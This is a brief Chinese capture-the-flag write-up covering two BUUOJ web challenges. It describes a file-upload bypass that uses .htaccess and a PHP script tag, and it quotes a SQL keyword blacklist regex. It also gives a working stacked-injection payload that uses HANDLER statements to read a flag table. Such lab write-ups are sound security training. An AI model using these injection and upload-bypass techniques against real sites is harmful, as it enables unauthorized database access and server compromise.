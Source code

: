 ## [GXYCTF2019]BabyUpload（文件上传，.htaccess，cookie保持上传位置不变）

简单文件上传

考察 .htaccess 和 `<script language="php">xx</script>`

和之前有一题差不多, 记得设置 cookie

## [GYCTF2020]Blacklist（堆叠注入，handler注入）

![](assets/202208241959805-1700744514804295.png)

过滤内容如下

```php
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

handler 注入

```
http://215e031d-2bb6-4870-b01d-6fb4cfa685c5.node4.buuoj.cn:81/
?inject=1';handler FlagHere open;handler FlagHere read first;#
```

![](assets/202208242048413-1700744514804297.png)
